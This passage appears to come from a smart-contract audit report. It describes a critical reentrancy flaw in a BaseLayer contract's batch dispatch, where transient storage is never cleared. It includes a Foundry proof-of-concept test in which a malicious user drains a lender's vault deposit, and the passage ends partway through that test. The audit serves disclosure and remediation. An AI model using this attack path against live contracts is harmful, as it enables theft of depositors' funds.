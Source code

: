 
## Findings Explanation

Findings are broken down into sections by their respective impact:

- Critical, High, Medium, Low impact
  - These are findings that range from attacks that may cause loss of funds, impact control/ownership of the contracts, or cause any unintended consequences/actions that are outside the scope of the requirements.
- Gas savings
  - Findings that can improve the gas efficiency of the contracts.
- Informational
  - Findings including recommendations and best practices.

---

## Critical Findings

### 1. Critical - Not resetting the transient storage in `_doBatchDispatch()` leads to the vaults being drained

`batchExecutor()` ensures that batch calls cannot be reentered. However, failing to clear the transient storage invalidates the `onlyInBatch` modifier for the rest of the function calls in the transaction.

#### Technical Details

There is a reentrancy check in [`_doBatchDispatch()`](https://github.com/JRFin/jrf-base-layer/blob/a16d9231fb3c2d1754da378455ba0cfe2d7df111/contracts/BaseLayer.sol#L458) that works by ensuring `batchExecutor()` is unset at the start of the transaction and setting it when the transaction begins. However, it is crucial to note that `batchExecutor()` is not reset at the end of the transaction.

This oversight means that the [`onlyInBatch()`](https://github.com/JRFin/jrf-base-layer/blob/a16d9231fb3c2d1754da378455ba0cfe2d7df111/contracts/BaseLayer.sol#L129) modifier, which only reverts if `batchExecutor()` is not set, does not effectively function as intended.

Consequently, all functions using the `onlyInBatch()` modifier remain callable and are susceptible to reentrancy, as there are no additional reentrancy guards within those functions. Additionally, `_doBatchDispatch()` cannot be called again within the same transaction due to the initial `batchExecutor()` check, which is not reset after the first call.

An example of a possible attack path, where an attacker drains a vault after a lender deposits and mints dr, is shown in the following PoC:
```solidity
function testAttack() public {
    batches = zeroBatches;
    token1.mint(lender, amount);

    data = abi.encodeWithSelector(IVault.deposit.selector, address(lender), amount);
    batch = IBaseLayer.BatchItem(address(vault1), data);
    batches.push(batch);

    vm.startPrank(lender);
    token1.approve(address(vault1), amount);
    data = abi.encodeWithSelector(BaseLayer.drMint.selector, address(vault1), accountIdLender, amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    batches.push(batch);
    baseLayer.dispatchBatch(batches);

    assertEq(baseLayer.depositaryReceiptBalances(address(vault1), accountIdLender), amount);

    batches = zeroBatches;
    vm.startPrank(maliciousUser);
    baseLayer.dispatchBatch(batches);
    baseLayer.transferOut(address(vault1), maliciousUser, amount);
```